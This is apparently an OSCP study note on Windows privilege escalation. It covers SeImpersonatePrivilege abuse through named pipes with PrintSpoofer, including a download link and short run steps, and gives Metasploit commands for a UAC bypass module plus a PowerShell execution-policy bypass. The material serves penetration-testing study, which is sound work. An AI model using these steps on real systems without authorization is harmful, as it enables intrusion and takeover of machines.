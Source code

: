 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/8-windows-privilege-escalation/9-using-exploits/"}
---
```


- Another way of performing privilege escalations is by exploiting vulnerabilities
- There are several kinds:
	- Application running by a higher privileged user
	- Windows Kernel
		- Can easily crash the system
	- Windows Privileges
		- Users with SeImpersonatePrivilege are assigned specific privileges by leveraging a token in a specific context, which can be abused.
		- This most often occurs when breaching the account of a service such as a web server, and not standard users, which may run as: _LocalService_, _LocalSystem_, _NetworkService_, or _ApplicationPoolIdentity_.
		- Others privileges that can be abused include: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug.

### Named Pipes:
- A method for two unrelated processes to share and transfer data with each other.
- A named pipe server creates a named pipe to which a named pipe client can connect. The server and client does not have to reside on the same system.
- Once a client connects to a named pipe, the server can leverage _SeImpersonatePrivilege_ to impersonate this client after capturing the authentication from the connection process.
- To abuse it we need: A privileged process to connect to a controlled named pipe with _SeImpersonatePrivilege_.
- Example is "PrintSpoofer" which makes NT AUTHORITY connect to a controlled named pipe for command execution.
- Printspoofer: https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

To exploit:
1. Make sure _SeImpersonatePrivilege_ is turned on for your current user with:
```
whoami /priv
```
2. Get the script from your computer.
3. Execute it and win!

Other exploits good to know:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

-------
### Meterpreter UAC bypass:
- Review the integrity level of current process:
```powershell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- In meterpreter:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

